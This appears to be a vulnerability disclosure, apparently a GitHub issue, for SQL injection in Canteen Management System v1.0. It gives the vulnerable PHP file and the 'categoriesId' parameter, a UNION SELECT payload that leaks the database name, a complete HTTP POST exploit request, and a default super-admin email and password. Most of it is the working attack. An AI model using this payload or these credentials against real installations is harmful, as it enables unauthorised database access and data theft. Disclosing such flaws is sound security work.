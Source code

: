 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: Qianxin Niu

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/php_action/fetchSelectedCategories.php

Vulnerability location: /youthappam/php_action/fetchSelectedCategories.php, categoriesId

dbname =youthappam,length=10

[+] Payload: categoriesId=-1 union select 1,database(),3,4 // Leak place ---> categoriesId

```sql
POST /youthappam/php_action/fetchSelectedCategories.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

categoriesId=-1 union select 1,database(),3,4
```

![image](https://user-images.githubusercontent.com/54017627/195264798-d8683164-5a65-4136-9e2a-85e35a1054fe.png)
